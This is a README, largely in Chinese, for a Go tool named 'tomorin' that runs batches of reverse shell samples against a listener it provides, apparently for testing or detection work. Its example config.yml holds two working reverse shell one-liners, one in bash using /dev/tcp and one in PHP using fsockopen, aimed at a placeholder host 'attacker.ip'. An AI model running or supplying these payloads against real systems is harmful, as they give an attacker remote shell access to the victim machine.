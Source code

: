 # tomorin 批量执行反弹 Shell 样本

## Build

```bash
go build -o ./bin/tomorin
```

### attacker

```
ubuntu@VM-0-5-ubuntu:~/source/tomorin$ ./bin/tomorin serve -h
Run reverse shell server

Usage:
  tomorin serve [flags]

Flags:
  -a, --address strings   Addresses to listen, each of which has the format of [PROTO:[IP:]]PORT. If PROTO is not specified, then "tcp" will be used. If IP is not specified, then "udp" will be used.
      --cmd string        Command to be executed once a remove host is connected (default "whoami && sleep 2")
      --cmd-exit          Whether to append an "exit" to the end of the provided cmd. This should always be true if you want a graceful exit on the remote shell. (default true)
  -h, --help              help for serve
      --tcp-timeout int   Timeout for each connection. Applied to TCP only (default 10)
```

监听 TCP 29007 和 UDP 29008 端口。当victim连接上端口的时候，发送指定的cmd然后退出。

```bash
./bin/tomorin serve -a tcp:29007 -a udp:29008
```

### victim

```
ubuntu@VM-0-5-ubuntu:~/source/tomorin$ ./bin/tomorin run -h
Run reverse shell samples from current host

Usage:
  tomorin run [flags]

Flags:
  -c, --config string   Path to the config file (default "config.yml")
  -h, --help            help for run
      --timeout int     Timeout of each sample (default 10)
      --wait int        Timeout until the next sample (default 7)
```

编写 `config.yml`，把反弹Shell样本写入 `samples` 字段，把依赖项写入 `depends` 字段，比如

```yaml
depends:
- php
samples:
- name: 001
  script: bash -i >& /dev/tcp/attacker.ip/4242 0>&1
- name: 002
  script: php -r '$sock=fsockopen("attacker.ip",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

确认所有依赖都无误之后，执行所有反弹Shell样本

```bash
./bin/tomorin run -c config.yml
```

## TODO

- [x] Reverse shell server
    - [x] TCP
    - [x] UDP
